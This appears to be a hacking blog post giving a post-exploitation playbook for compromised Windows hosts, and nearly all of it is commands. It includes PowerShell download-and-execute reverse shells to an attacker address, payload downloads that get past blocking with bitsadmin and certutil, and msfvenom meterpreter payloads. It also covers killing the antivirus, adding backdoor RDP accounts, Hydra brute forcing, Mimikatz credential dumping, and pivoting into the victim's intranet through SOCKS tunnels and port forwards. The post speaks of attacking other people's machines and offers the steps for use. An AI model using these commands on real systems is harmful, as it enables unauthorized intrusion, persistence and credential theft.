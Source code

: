 ```yaml
---
title: After Getting The Shell
date: 2018-11-02 11:55:13
categories: Hacking
tags: [PowerShell, Metasploit]
description: It seems that it's getting more and more popular that everyone would like to perform a scan of the whole intranet when he takes down one of the other people's machines. So what to do next after getting the shell of a windows system? Some ideas about that. 
---
```


Here gives two methods to trigger a windows reverse shell with PowerShell, remember to bypass the PowerShell security policy before you execute PowerShell command. (https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

For attacker:
```shell
nc -lvp 6666
```

For target:
```shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c x.x.x.x -p 6666 -e cmd
```
```shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -port 6666
```

Sometimes the protection system on the server will block PowerShell from downloading anything, there are two tools to help you:
```shell
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```
```shell
certutil -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Most of the time you will face three situations:

### You don't have administrator privilege, but there is no protection system.

If you're lucky enough, there's no anti-virus software in the system, you can trigger a reverse Metasploit shell in any method you like:
In an easy way:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > a.exe
```
All you need to do is uploading the payload and execute it. When it comes to the question of how to upload the payload, the answer is that you must forward your local port to the public network with the help of FRP(https://github.com/fatedier/frp) which is a powerful tool, and you must have a VPS to achieve that. Even if you don't have a VPS, you can use ngrok to make it work.

### There is protection system in the server, but you have administrator privilege.

If you're not so lucky, maybe you should find some methods such as veil-evasion to obfuscate your payload. In worse situation, your payload which has been obfuscated was deleted by the antivirus as well. you'd better consider killing the process of the antivirus.

Sometimes it's not easy to kill the process of antivirus, you can just log into the system by the remote desktop protocol. The first step is to add a new user to the system:

```shell
net user Name Pass /add
```
Then you should add this user to the allowed rdp accounts from the commandline:

```shell
net localgroup "Remote Desktop Users" domain\user /add
```

If you want to add a non-domain user, it's easier:

```shell
net localgroup "Remote Desktop Users" user /add
```
But you cannot do crazy things with this account, but you can identify which protection system the server use and shutdown it or bypass it. It's not done yet if you want to execute some high-privilege command, privilege escalation could be taken into consideration.

Hydra is a powerful tool if you have a powerful wordlist:
```shell
hydra x.x.x.x rdp -L users.txt -P wordlist.txt -v
```
Mimikatz is also a good choice to dump the username and password from memory of the server. But most of the time mimikatz will be killed by the protection system.

### You don't have the administrator privilege, and the server has a protection system.

Shutdown your computer and go to sleep unless you have some 0day vulnerabilities.

---

There are some ways to help you to go deep and you can treat your victim as a pivot to find out more vulnerable hosts within the intranet.

Firstly try to add the routing rules of the target to your meterpreter shell. An msf built-in module "autoroute" and is convenient. (https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)

![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-1.png)

```shell
meterpreter > run post/multi/manage/autoroute
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-2.png)

You can enumerate hosts by performing an ARP scan:

```shell
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.5.1/24
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-3.png)

Adding routing rule is not always working well, you can try the socks4a module in meterpreter:

```shell
use anxiliary/server/socks4a
set srvport 1080
run
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-4.png)

If it's Linux in your local machine, you can use proxychains to set the socks5 proxy.
Getting proxychains installed:
```shell
apt install proxychains-ng 
```
Add the following content into the /etc/proxychains.conf file:
```shell
socks4 127.0.0.1 1080
```
Then you can use socks proxy to scan the victim's intranet:
```shell
proxychains4 nmap -sT -Pn --open 192.168.5.0/24
```
I have tried so many times to find out all the machines in the victim's intranet but I was usually failed. It just works for few times and the process is too slow. Maybe nmap is the reason for this problem, it works well when I use proxychains to get information from other hosts within the same intranet.

Or you can use EarthWorm(http://rootkiter.com/EarthWorm/) to forward the victim machine's port to your VPS and use proxy
chains or proxifier in your local machine:
For your VPS:
```shell
./ew -s rcsocks -l 1080 -e 1024
```
The command above means your VPS listens the port 1080, 1024  and waits for attacker connect to the port 1080, the victi
m connects to the port 1024.

For target:
```shell
ew.exe -s rssocks -d x.x.x.x -e 1024
```
The argument -d is the IP address of your VPS.

Add the following content into the /etc/proxychains.conf file:
```shell
socks5 x.x.x.x 1080
```
Use proxychains to scan rest of the hosts:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```
Here comes the point, most of the antivirus will treat EarthWorm as the threat to the system and it will possibly be killed.

I'd like to recommend another open-source tool called ssocks.(https://github.com/tostercx/ssocks) You can build the source code by yourself.

The usage is similar to EarthWorm:

For your VPS:
```shell
rcsocks -l 1088 -p 1080 -vv
```
For target:
```shell
./rssocks -s x.x.x.x:1080 -vv
```
The configuration and operation of proxychains is same as previous description.

If you need ports forwarding, it's also available in meterpreter: (https://www.offensive-security.com/metasploit-unleashed/portfwd/)
```shell
meterpreter > portfwd add –l 3389 –p 3389 –r 192.168.5.100
```
Another popular tool is lcx.exe:
For attacker:
```shell
lcx -listen 2222 3333
```
For target:
```shell
lcx -slave x.x.x.x 2222 127.0.0.1 3389
```
The IP x.x.x.x is the address of your public VPS. Finally execute **_mstsc x.x.x.x:3333_** to connect to the remote desktop of the target.

There are many other useful tools except for the tools I mentioned above, such as netcat, ncat and ssf. You can make a choice among them as you like.
